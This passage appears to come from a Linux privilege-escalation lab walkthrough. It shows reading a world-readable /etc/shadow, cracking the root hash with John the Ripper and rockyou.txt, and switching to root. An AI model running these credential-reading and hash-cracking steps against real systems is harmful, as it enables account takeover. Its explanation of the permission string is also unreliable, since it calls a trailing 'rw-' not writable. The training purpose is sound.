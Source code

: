 ```bash
ls -l /etc/shadow
```

### Step 2: View the Contents of /etc/shadow

Display the contents of the `/etc/shadow` file:

```bash
cat /etc/shadow
```

Each line represents a user, with their password hash located between the first and second colons (`:`) of each line.

### Step 3: Crack the Root User's Password Hash

Save the root user’s password hash to a file called `hash.txt` on your Kali VM and use John the Ripper to crack it. Depending on your Kali version, you may need to unzip the `rockyou.txt` wordlist and use `sudo`:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### Step 4: Switch to the Root User

Once the password is cracked, switch to the root user:

```bash
su root
```

### Q1. What is the root user’s password hash?

#### Action

Start by checking the permissions of the `/etc/shadow` file to see if it is accessible by non-root users:

```bash
ls -l /etc/shadow
```

**Sample Output:**

```bash
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
```

**Explanation:**  
The output above shows the permissions for the `/etc/shadow` file. The file is owned by the `root` user and the `shadow` group. The permissions `-rw-r--rw-` indicate that the file is readable and writable by the owner (`root`), readable by others in the `shadow` group, and incorrectly readable (but not writable) by all users on the system (indicated by the final `rw-`). This is a significant misconfiguration because it allows any user to read sensitive password hashes.

Next, view the contents of the `/etc/shadow` file and extract the line corresponding to the root user:
